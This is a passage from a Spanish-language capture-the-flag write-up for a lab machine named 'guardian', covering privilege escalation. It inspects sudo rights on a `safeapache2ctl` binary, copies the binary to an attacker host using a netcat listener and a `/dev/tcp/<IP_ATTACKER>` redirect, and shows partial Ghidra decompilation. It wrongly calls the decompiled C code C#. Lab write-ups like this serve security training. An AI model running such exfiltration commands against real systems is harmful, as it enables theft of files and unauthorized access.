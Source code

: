 Veremos que ha funcionado, por lo que ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

Vemos que podemos ejecutar como `root` el binario `safeapache2ctl`, vamos a ver como funciona.

Si lo ejecutamos nos pide un archivo de configuracion:

```shell
sudo safeapache2ctl
```

Info:

```
Usage: safeapache2ctl -f /home/mark/confs/file.conf
```

Si vamos a donde se depositan los archivos, veremos que esta vacia la carpeta y que podemos crear archivos dentro de la misma.

Vamos a pasarnos el binario para analizarlo de esta forma:

```shell
nc -lvnp <PORT> > safeapache2ctl
```

En la maquina victima:

```shell
cat /usr/local/bin/safeapache2ctl > /dev/tcp/<IP_ATTACKER>/<PORT>
```

Ahora si listamos el binario en nuestra maquina atacante, veremos que nos lo pasamos bien:

```
-rwxr-xr-x 1 root root     16616 Sep 28 07:24 safeapache2ctl
```

Vamos abrirlo con `ghidra` para decompilarlo y ver el codigo legible en `C#`.

> main.c

```c
undefined8 main(int param_1,undefined8 *param_2)

{
  int iVar1;
  char *pcVar2;
  FILE *__stream;
  long in_FS_OFFSET;
  char local_1418 [1024];
  char local_1018 [4104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 == 3) {
    iVar1 = strcmp((char *)param_2[1],"-f");
    if (iVar1 == 0) {
      pcVar2 = realpath((char *)param_2[2],local_1018);
      if (pcVar2 == (char *)0x0) {
        perror("realpath");
```